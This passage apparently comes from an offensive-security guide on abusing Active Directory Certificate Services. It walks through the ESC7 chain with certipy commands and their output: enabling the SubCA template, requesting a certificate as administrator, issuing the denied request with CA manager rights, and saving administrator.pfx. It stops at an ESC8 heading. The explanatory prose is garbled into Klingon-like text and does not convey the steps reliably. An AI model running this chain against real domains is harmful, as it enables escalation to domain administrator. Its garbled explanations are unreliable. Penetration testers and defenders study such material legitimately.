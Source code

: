```bash

# Enable SubCA
certipy ca -ca 'corp-DC-CA' -enable-template SubCA -username john@corp.local -password Passw0rd
Certipy v4.0.0 - by Oliver Lyak (ly4k)

[*] Successfully enabled 'SubCA' on 'corp-DC-CA'
```
**qaStaHvISmo' 'ej SubCA template Daq certificate ** **'oH request** **.**

**'oH request** **'e' vItlhutlh** **, 'ach** **private key** **jatlh** **'ej request ID** **jatlh** **.**
```bash
certipy req -username john@corp.local -password Passw0rd -ca corp-DC-CA -target ca.corp.local -template SubCA -upn administrator@corp.local
Certipy v4.0.0 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[-] Got error while trying to request certificate: code: 0x80094012 - CERTSRV_E_TEMPLATE_DENIED - The permissions on the certificate template do not allow the current user to enroll for this type of certificate.
[*] Request ID is 785
Would you like to save the private key? (y/N) y
[*] Saved private key to 785.key
[-] Failed to request certificate
```
**`Manage CA`** **`'ej`** **`Manage Certificates`** **vItlhutlh** **`wej certificate`** **`request`** **`issue`** **`ca`** **`command`** **`'ej`** **`-issue-request <request ID>`** **`parameter`** **ghItlh** **`jImej`** **`certificate`** **`request`**.
```bash
certipy ca -ca 'corp-DC-CA' -issue-request 785 -username john@corp.local -password Passw0rd
Certipy v4.0.0 - by Oliver Lyak (ly4k)

[*] Successfully issued certificate
```
'ej vaj, maHegh **ghItlh certificate** vItlhutlh vaj vay' req command 'ej vay' -retrieve <request ID> parameter.
```bash
certipy req -username john@corp.local -password Passw0rd -ca corp-DC-CA -target ca.corp.local -retrieve 785
Certipy v4.0.0 - by Oliver Lyak (ly4k)

[*] Rerieving certificate with ID 785
[*] Successfully retrieved certificate
[*] Got certificate with UPN 'administrator@corp.local'
[*] Certificate has no object SID
[*] Loaded private key from '785.key'
[*] Saved certificate and private key to 'administrator.pfx'
```
## NTLM Relay to AD CS HTTP Endpoints – ESC8

### Explanation
